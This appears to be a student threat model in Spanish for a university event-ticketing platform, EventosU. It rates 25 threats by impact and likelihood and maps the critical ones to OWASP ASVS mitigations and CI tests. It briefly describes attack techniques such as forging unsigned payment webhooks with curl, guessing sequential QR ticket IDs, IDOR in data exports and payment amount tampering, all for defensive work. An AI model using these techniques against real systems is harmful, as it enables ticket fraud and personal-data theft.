| 1.2 Pagar menos (AM-09) | Q1 por entrada | Media: proxy de interceptación | La pasarela deja registro de la transacción a nombre del atacante (lo identifica) |
| 2.2 QR de otra persona (AM-07 / AM-08) | Q0 | Ninguna | Necesita que otra persona pague y no entre; en neto no genera ingresos perdidos (por eso AM-07 se acepta) |
| 3.1 Escalar privilegios (AM-22/23/24) | Q0 | Media a alta | Hay que analizar el bundle JS o la app y encadenar llamadas |
| 3.2 DoS + puerta sin control (AM-19) | ≈Q400 | Media | Hay que alquilar una botnet y además el personal tiene que ceder; es caro y llama la atención |
| 3.3 Personal cómplice (AM-13) | Soborno | Social | Requiere reclutar a alguien del personal |
El webhook forjado cuesta Q0 en dinero, pero solo funciona si el equipo olvida verificar la firma y exige algo de conocimiento técnico. El QR secuencial, en cambio, se descubre al ver una entrada, no exige ninguna habilidad y escala a todos los eventos. Por eso es el camino más barato y probable, y AM-02 aparece entre las críticas. Cortarlo exige tokens aleatorios de 128 bits (ASVS 11.5.1); con eso la rama 2.1 desaparece y el atacante tiene que pasar a ramas más caras o que dejan rastro.
| Impacto | Criterio |
|---|---|
| Alto | Pérdida económica directa, filtración masiva de PII (todo un evento o más), toma de control de cuentas privilegiadas o interrupción de un evento completo. |
| Medio | Afecta a un usuario o a un evento de forma limitada, o es una pérdida recuperable (p. ej., una entrada extra, un correo que no llega). |
| Bajo | Molestia operativa sin pérdida de datos ni de dinero, y fácil de revertir. |
| Probabilidad | Criterio |
|---|---|
| Alta | Lo puede hacer cualquier usuario anónimo o recién registrado, con un navegador, curl o un proxy gratuito, y sin conocimiento interno. |
| Media | Requiere tener cierto rol (organizador, puerta), algo de conocimiento técnico o que se cumpla una condición frecuente (p. ej., reutilizar contraseñas). |
| Baja | Requiere acceso privilegiado, un error de configuración poco común, recursos significativos (botnet) o encadenar varias condiciones. |
Riesgo = Impacto (Bajo 1, Medio 2, Alto 3) × Probabilidad (Baja 1, Media 2, Alta 3): 9 Crítico, 6 Alto, 3–4 Medio, 1–2 Bajo. Los Críticos se resuelven antes de escribir código; los Altos, antes del primer release.
| Impacto ↓ / Probabilidad → | Baja | Media | Alta |
|---|---|---|---|
| Alto | AM-03 AM-17 AM-19 AM-23 AM-25 Medio (3) |
AM-04 AM-15 AM-16 AM-24 Alto (6) |
AM-01 AM-02 AM-09 AM-14 AM-22 Crítico (9) |
| Medio | AM-20 Bajo (2) |
AM-05 AM-08 AM-10 AM-11 AM-12 AM-13 AM-18 AM-21 Medio (4) |
AM-06 Alto (6) |
| Bajo | — Bajo (1) |
— Bajo (2) |
AM-07 Medio (3) |
Distribución: 5 Crítico, 5 Alto, 14 Medio, 1 Bajo. Respuestas: 22 Mitigar, 1 Aceptar, 1 Transferir, 1 Eliminar.
| ID | Impacto | Justificación del impacto | Prob. | Justificación de la probabilidad | Riesgo |
|---|---|---|---|---|---|
| AM-01 | Alto | Pérdida económica directa por cada entrada y además permite revender QRs válidos. | Alta | El endpoint es público por diseño (la pasarela debe alcanzarlo) y basta con curl para forjar el POST. | Crítico |
| AM-02 | Alto | Ingreso gratuito masivo, sobrecupo y conflicto con asistentes legítimos en la puerta. | Alta | Leer y generar un QR no requiere nada técnico y el ID secuencial se deduce con una sola entrada comprada. | Crítico |
| AM-03 | Alto | Toma de cuenta institucional, incluidas cuentas de organizador o administrador. | Baja | Entra ID valida por defecto los redirect URI registrados de forma exacta; solo funciona si se configuran mal. | Medio |
| AM-04 | Alto | Toma de cuentas privilegiadas sin conocer su contraseña. | Media | Crear un tenant es gratis y la técnica está documentada públicamente, pero el atacante tiene que conocer un correo de organizador. | Alto |
| AM-05 | Medio | Compromete una cuenta individual con login local (las cuentas institucionales no usan este flujo). | Media | Requiere que la víctima haga clic, pero el correo es legítimo y sale del remitente oficial de EventosU. | Medio |
| AM-06 | Medio | Afecta cuentas individuales; es grave solo si alguna de ellas es privilegiada. | Alta | Las listas filtradas son públicas, las herramientas son gratuitas y el registro con correo y contraseña está abierto a todos. | Alto |
| AM-07 | Bajo | Se pagó una entrada y entra una sola persona; el aforo y los ingresos no cambian. | Alta | Compartir una captura de pantalla no requiere ningún conocimiento. | Medio |
| AM-08 | Medio | Cada carrera ganada da una entrada extra; afecta el aforo, pero de forma limitada. | Media | Requiere coordinarse para escanear en el mismo segundo en dos puertas, algo factible en eventos con varios accesos. | Medio |
| AM-09 | Alto | Pérdida económica casi total en cada inscripción, repetible para cualquier evento. | Alta | Los parámetros de la redirección son visibles y editables en el navegador con herramientas gratuitas. | Crítico |
| AM-10 | Medio | Filtra datos de algunas filas o compromete el equipo de un organizador; no es una filtración masiva directa. | Media | Registrarse con cualquier nombre es libre, pero el ataque requiere que el organizador abra el archivo y haga clic. | Medio |
| AM-11 | Medio | Disputas y contracargos que no se pueden defender, más QRs duplicados. | Media | Las pasarelas reintentan webhooks con frecuencia; los reclamos se dan en cada evento grande. | Medio |
| AM-12 | Medio | Impide investigar incidentes y asignar responsabilidades, aunque no causa daño directo. | Media | Los cambios de rol son frecuentes y, sin un diseño explícito, la auditoría queda fuera por omisión. | Medio |
| AM-13 | Medio | Fraude interno difícil de detectar y conflictos con asistentes que sí pagaron. | Media | Compartir una cuenta genérica entre el personal temporal es habitual si el diseño no lo impide. | Medio |
| AM-14 | Alto | Filtración masiva de PII de eventos completos (activo A1). | Alta | Basta con cambiar un número en la URL; cualquier organizador puede hacerlo. | Crítico |
| AM-15 | Alto | Filtración de la PII de todo un evento sin autenticación y sin rastro. | Media | Requiere obtener o adivinar el nombre del archivo, pero el patrón es obvio y los enlaces se reenvían. | Alto |
| AM-16 | Alto | Robo de sesiones a escala, incluidas las de administradores, que dan control total. | Media | Requiere una cuenta de organizador y que el desarrollador use HTML sin sanitizar, algo común cuando se quiere texto enriquecido. | Alto |
| AM-17 | Alto | Exposición de toda la BD: PII, hashes y estado de pagos. | Baja | Los ORMs y drivers modernos de Node parametrizan por defecto; solo ocurre si alguien concatena SQL a mano. | Medio |
| AM-18 | Medio | Exposición de credenciales vigentes, limitada a quienes tienen acceso a los logs. | Media | Registrar peticiones completas es una práctica común al depurar y suele quedar activa en producción. | Medio |
| AM-19 | Alto | Interrumpe el ingreso a un evento completo (activo A8). | Baja | Requiere motivación y alquilar recursos, y el ataque solo tiene sentido en eventos grandes. | Medio |
| AM-20 | Medio | Caídas temporales de la API y costos extra, recuperables. | Baja | Requiere una cuenta de organizador, que es un rol asignado por un administrador. | Bajo |
| AM-21 | Medio | Los asistentes no reciben su QR, aunque podrían descargarlo desde el sitio si el diseño lo permite. | Media | El formulario de restablecimiento es público y fácil de automatizar. | Medio |
| AM-22 | Alto | Control total de la plataforma: roles, eventos, reportes y PII. | Alta | Las rutas están en el JavaScript que cualquiera descarga, y el /admin comparte login con los usuarios. | Crítico |
| AM-23 | Alto | Escalada a administrador sin necesidad de ninguna otra vulnerabilidad. | Baja | Las librerías modernas rechazan alg none y una llave aleatoria de 256 bits no se puede crackear; requiere una mala configuración. | Medio |
| AM-24 | Alto | Sabotaje masivo de entradas pagadas y enumeración de QRs válidos. | Media | Requiere interceptar el tráfico de la app, algo sencillo con un proxy y un certificado instalado en el propio teléfono. | Alto |
| AM-25 | Alto | Un organizador escala a administrador. | Baja | Requiere una cuenta de organizador, que el SVG se sirva desde el mismo origen y que un administrador lo abra directamente. | Medio |
Las cinco amenazas con riesgo Crítico (9) se trazan a requisitos de OWASP ASVS 5.0, a una historia de usuario con criterios de aceptación y al control del pipeline que las verifica.
| Respuesta | Mitigar: Verificar la firma HMAC-SHA256 del encabezado de la pasarela con el secreto guardado en el gestor de secretos, comparando en tiempo constante. Rechazar con 401 si la firma no es válida o si el timestamp tiene más de 5 minutos. Antes de marcar la inscripción como pagada, consultar a la API de la pasarela el estado de la transacción (server-to-server). |
|---|---|
| Requisitos ASVS 5.0 |
|
| Historia de usuario | Como tesorería de la universidad, quiero que una inscripción solo pase a “pagada” cuando el webhook trae una firma válida y la pasarela confirma la transacción, para no emitir entradas sin cobro. |
| Criterios de aceptación | Webhook sin firma, con firma inválida o con timestamp de más de 5 minutos → 401 y la inscripción no cambia. Un webhook válido pero con una transacción que no existe en la pasarela → no se marca como pagada. |
| Control que lo verifica | DAST + prueba automatizada: Prueba de integración en CI que envía webhooks sin firma, con firma alterada y repetidos, y verifica 401 y que el estado no cambie. Un script de OWASP ZAP repite el caso contra staging en cada release. |
| Respuesta | Mitigar: La API crea la orden de pago directamente con la pasarela (server-to-server), con el monto tomado de la BD, y el navegador solo recibe el ID de orden. Al recibir el webhook, comparar monto, moneda e ID de orden contra la inscripción; si no coinciden, no marcar como pagada, registrar el evento y alertar. |
|---|---|
| Requisitos ASVS 5.0 |
|
| Historia de usuario | Como sistema de inscripciones, quiero crear la orden de pago desde la API con el precio guardado en la BD y comparar el monto del webhook, para que el cliente no pueda decidir cuánto paga. |
| Criterios de aceptación | Si se altera el monto en el navegador, la orden no cambia. Un webhook con un monto distinto al precio → inscripción en estado “revisión”, alerta a tesorería y sin QR. |
| Control que lo verifica | Prueba manual + DAST: Caso de prueba manual con Burp Suite en el checklist de release (alterar el monto y el ID de orden). Una regla de DAST con ZAP verifica que el endpoint de creación de orden ignore los campos de monto que envíe el cliente. |
| Respuesta | Mitigar: El QR debe contener un token aleatorio de 128 bits generado con CSPRNG (crypto.randomBytes), o un token firmado (Ed25519) con inscripción, evento y expiración. La API valida que el token exista, pertenezca al evento que se escanea y esté pagado. No exponer IDs secuenciales. |
|---|---|
| Requisitos ASVS 5.0 |
|
| Historia de usuario | Como Personal de Puerta, quiero que cada QR contenga un token aleatorio imposible de adivinar y ligado a un evento, para que nadie pueda fabricar entradas. |
| Criterios de aceptación | El token tiene al menos 128 bits de entropía y se genera con crypto.randomBytes. Un token de otro evento → “inválido”. 10 000 tokens generados no tienen colisiones ni patrón secuencial. |
| Control que lo verifica | SAST: Regla de Semgrep en el pipeline que falla el build si el módulo de entradas usa Math.random(), autoincrementales o uuid v1 para generar tokens. Se complementa con una prueba unitaria de entropía y unicidad. |
| Respuesta | Mitigar: Aplicar autorización a nivel de objeto en la API: antes de exportar, verificar que evento.organizador_id = sub del JWT o que el usuario sea Administrador; si no, responder 404. Usar UUID en lugar de IDs secuenciales como defensa en profundidad. Registrar cada exportación en la bitácora. |
|---|---|
| Requisitos ASVS 5.0 |
|
| Historia de usuario | Como organizadora, solo puedo ver y exportar los inscritos de los eventos que yo creé; si pido otro evento recibo 404. |
| Criterios de aceptación | Organizador A pide el CSV del evento de B → 404 y el intento queda en la bitácora. Un administrador puede exportar cualquier evento. Cada exportación registra quién, qué evento y cuándo. |
| Control que lo verifica | DAST: Escaneo DAST autenticado (ZAP con dos contextos de usuario: organizador A y organizador B) en el pipeline de staging, más pruebas de autorización automatizadas que recorren todos los endpoints /eventos/:id/* con un usuario ajeno y esperan 404. |
| Respuesta | Mitigar: Aplicar autorización por función en la API: un middleware requireRole('admin') en todo el router /api/admin y en cada endpoint privilegiado, con política de denegar por defecto. Al cambiar el rol, tomarlo de la BD (no del JWT) e invalidar las sesiones previas. Servir el panel desde un subdominio separado y exigir MFA. |
|---|---|
| Requisitos ASVS 5.0 |
|
| Historia de usuario | Como administrador de la plataforma, quiero que todos los endpoints de administración verifiquen en la API el rol Administrador (tomado de la BD) y exijan MFA, para que ocultar el menú no sea la única barrera. |
| Criterios de aceptación | Un estudiante que llama cualquier endpoint /api/admin/* o PATCH /usuarios/:id/rol → 403. Un cambio de rol invalida las sesiones del usuario afectado. Sin MFA no se entra al panel. |
| Control que lo verifica | SAST + DAST: Regla de Semgrep que exige requireRole('admin') en cada ruta registrada bajo el router de administración (si falta, el build falla), y un escaneo DAST con usuario estudiante que intenta todas las rutas de administración. |
| Amenaza | ASVS 5.0 | Control |
|---|---|---|
| AM-01 Webhook de pago falsificado | V2.3.1, V4.1.5, V16.5.3 | DAST + prueba automatizada |
| AM-09 Monto del pago manipulado en la redirección a la pasarela | V2.2.2, V2.2.3 | Prueba manual + DAST |
| AM-02 QR de entrada predecible (ID secuencial) | V11.5.1, V8.2.2 | SAST |
| AM-14 IDOR en la exportación CSV de inscritos | V8.2.2, V8.3.1 | DAST |
| AM-22 Panel /admin protegido solo en el cliente | V8.2.1, V8.3.1, V8.4.2 | SAST + DAST |
| Amenaza | AM-07 · Reventa o uso compartido de un QR legítimo (Medio) |
|---|---|
| Justificación | Con el control de un solo uso (AM-08), una entrada pagada equivale a un solo ingreso: no hay pérdida económica ni sobrecupo. Exigir carné o documento en todas las puertas añade colas y fricción desproporcionadas para eventos gratuitos o de bajo costo, que son la mayoría. |
| Responsable | Coordinación de Eventos de la universidad (dueña del producto EventosU). |
| Condición de revisión | Se revisa si un evento supera la demanda esperada o si se detecta reventa con sobreprecio. En ese caso, para ese evento se activa la entrada nominal (nombre en la pantalla de validación y verificación del carné). |
Otras respuestas distintas a mitigar: AM-19 se transfiere al servicio anti-DDoS/WAF del proveedor cloud mediante contrato, y AM-25 se elimina al no aceptar SVG.
El aprendizaje principal es que las amenazas más graves de EventosU no son técnicas sofisticadas sino decisiones de diseño implícitas: confiar en el cliente (monto, rol, ruta /admin), usar identificadores predecibles y no definir quién puede ver qué. Detectarlas ahora cuesta una línea en un documento; detectarlas en producción costaría dinero, datos personales y la confianza de los estudiantes. Este mismo método se aplicará en la Fase 2 del proyecto final.